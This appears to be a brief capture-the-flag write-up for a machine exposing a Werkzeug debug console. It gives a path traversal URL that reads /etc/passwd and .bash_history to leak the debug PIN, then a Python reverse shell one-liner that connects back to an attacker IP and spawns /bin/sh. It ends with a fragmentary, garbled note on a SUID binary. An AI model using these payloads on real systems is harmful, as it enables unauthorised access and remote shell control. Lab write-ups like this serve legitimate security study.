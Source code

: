 # Recon
## Ports
22      SSH
890     HTTP
5000    Werkzeug *VULNERABLE*
## API
``http://<IP>:5000/api/v1/resources/books`` 

# Exploit
In API, the param "show" is vulnerable to path transversal
## PoC
``http://<IP>:5000/api/v1/resources/books?show=../../../etc/passwd``
## Payload
To get the key for Werkzeug console fin in bash history.
``http://<IP>:5000/api/v1/resources/books?show=.bash_history``
```bash
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=XXX-XXX-XXX
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```
## Reverse in "/console"
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

# Privesc
In SID's home the executable ``try-harder`` has SUID bit.
## Exploit
Making the reverse we found that with the number is equal

``Study more to BOF....``